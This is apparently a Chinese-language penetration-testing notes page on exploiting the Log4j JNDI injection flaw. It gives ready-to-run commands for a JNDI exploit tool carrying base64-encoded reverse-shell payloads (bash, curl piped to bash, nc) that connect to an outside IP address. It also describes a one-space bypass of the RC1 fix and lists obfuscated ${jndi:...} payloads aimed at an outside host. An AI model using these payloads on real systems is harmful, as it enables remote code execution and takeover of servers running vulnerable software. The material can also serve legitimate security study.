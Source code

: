 ![image-20220221183255576](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220221183255576.png)

除了用marshalsec工具起ldap服务,还可以直接利用jndi注入工具,这种方法更为实用,不用再去编译恶意class文件和起ldap服务,本地测试的时候也不用去起HTTP服务端

平常我反弹shell的时候就是用的这个工具

```
bash反弹shell

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}" -A "47.93.248.221"
```

base64编码内容为要执行的命令,这个工具需要用jdk11去起

```
curl反弹shell

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,Y3VybCA0Ny45My4yNDguMjIxfGJhc2g=}|{base64,-d}|{bash,-i}" -A "47.93.248.221"
```

```
nc反弹shell

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,bmMgNDcuOTMuMjQ4LjIyMSAyMzMzIC1lIC9iaW4vc2g=}|{base64,-d}|{bash,-i}" -A "47.93.248.221"
```

# RC1修复绕过

在修复后,`PatternLayout.toSerializable`方法发生了变化，主要还是因为其中的`formatters`属性的变化导致了`${}`不会被处理

不过存在绕过,只要在payload中加一个空格即可

```
${jndi:ldap://127.0.0.1:1389/ ExportObject}
```

不过这个方法需要在开启lookup配置的时候才能被绕过

# 一些绕过的payload

```
${jndi:ldap://127.0.0.1:1389/ badClassName} ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::- i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk} 

${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sp loit} 

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2h vztn.l4j.zsec.uk/sploit} 

${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sp loit} 

${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2h vztn.l4j.zsec.uk/sploit} 

```